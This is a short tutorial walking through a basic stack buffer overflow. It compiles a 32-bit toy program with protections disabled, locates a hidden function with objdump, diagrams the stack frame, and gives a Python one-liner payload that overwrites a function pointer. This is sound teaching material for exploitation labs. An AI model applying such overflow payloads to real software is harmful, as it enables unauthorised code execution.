 #### Basic exploitation example walkthrough

`$ gcc -m32 -fno-stack-protector -z execstack -ex101.c -o ex101`

1.  In this example, we attempt to execute an unused functon

    1.  Assuming we have identified a vanilla buffer overflow vulnerability
    
    2.  Identify the address of the `hidden` function.
    
        `$ objdump -D -M intel exp101 | grep -e "hidden"`
        
        The dump file is provided [here](exp101.dump)
        
    3.   We wish to analyse the stack such that we know where our payload goes!
    
        ```
        Expected memory structure
        |-----------------------|<--------- Low addresses
        |                       |
        |                       |
        |                       |
        |                       |
        |-----------------------|<--------- Frame pointer (Top of stack)
        |   buffer[0]='A'=0x41  | 1 byte
        |-----------------------|
        |       buffer[1]       |   "
        |-----------------------|
        |       buffer[2]       |   "
        |-----------------------|
        |       buffer[3]       |   "
        |-----------------------|
        |       buffer[4]       |   "
        |-----------------------|
        |           ...         |   "
        |-----------------------|
        |      buffer[31]       |   "
        |-----------------------|
        |        f = NULL       | 4 bytes 
        |-----------------------|
        |  Saved Frame pointer  |   "
        |-----------------------|
        |     return address    |   "  <--- Address to return to in main
        |-----------------------|
        |           a           |   "
        |-----------------------|
        |           b           |   "
        |-----------------------|
        |           c           |   "
        |-----------------------|
        |           d           |   "
        |-----------------------|<--------- High addresses
        ```
        
    4.  From the model, we require `32 bytes` of data to fill the buffer and an extra `4 bytes` to overwrite `f`.
    
        +   The extra `4 bytes` to overwrite `NULL` in `f` will be the address of `hidden`. In my case, it is `0x0804843b`
    
            `$ python -c "print '\x41'*32 + '\x3b\x84\x04\x08'"`
            
            The weird address byte order relates to endianess.
            
            ![alt text](soln.png)
